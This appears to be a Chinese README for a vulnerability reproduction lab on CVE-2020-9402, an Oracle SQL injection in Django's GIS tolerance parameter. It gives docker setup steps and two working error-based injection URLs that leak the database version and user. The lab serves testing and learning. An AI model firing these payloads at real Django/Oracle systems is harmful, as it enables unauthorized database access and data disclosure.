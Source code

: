 # Django GIS函数和聚合中因容差参数导致SQL注入漏洞（CVE-2020-9402）

Django是一个高级的Python Web框架，支持快速开发和简洁实用的设计。

Django在2020年3月4日发布了安全更新，修复了在GIS查询功能中存在的Oracle SQL注入漏洞。该漏洞影响Django 3.0.4、2.2.11和1.11.29之前的版本。

该漏洞需要开发者使用了GIS中的查询功能，且用户可以控制查询集中的字段名。这个漏洞可以通过Django的内置管理界面进行利用。

参考链接：

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

## 环境搭建

执行如下命令编译并启动一个存在漏洞的Django 3.0.3服务器：

```
docker compose build
docker compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

首先访问`http://your-ip:8000/vuln/`。通过向`q`参数添加恶意输入来注入SQL：

```
http://your-ip:8000/vuln/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null  OR (1+1
```

SQL错误信息将会显示，证实注入成功：

![](1.png)

另外，你也可以访问`http://your-ip:8000/vuln2/`，使用不同的payload进行SQL注入：

```
http://your-ip:8000/vuln2/?q=0.05))) FROM "VULN_COLLECTION2"  where  (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null  --
```

SQL错误信息将再次确认注入成功：

![](2.png)
